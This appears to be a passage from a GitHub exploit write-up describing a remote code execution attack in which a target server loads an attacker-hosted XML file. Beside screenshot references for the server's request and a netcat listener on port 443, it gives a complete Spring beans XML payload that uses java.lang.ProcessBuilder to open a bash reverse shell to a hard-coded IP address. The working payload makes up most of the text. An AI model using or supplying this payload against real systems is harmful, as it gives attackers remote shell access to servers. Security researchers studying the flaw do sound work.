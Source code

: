 HTTP request received from the server to load the arbitrary XML file "evil.xml":

<img src="imgs/ExploitingReceivedAttackerHost.png" width="600px">

TCP listener on port 443 using the netcat utility:

<img src="imgs/ExploitingRshell.png" width="450px">


### Additional Payload
```xml
<?xml version="1.0" encoding="utf-8"?>
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value><![CDATA[bash -i >& /dev/tcp/10.198.143.172/443 0>&1]]></value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```
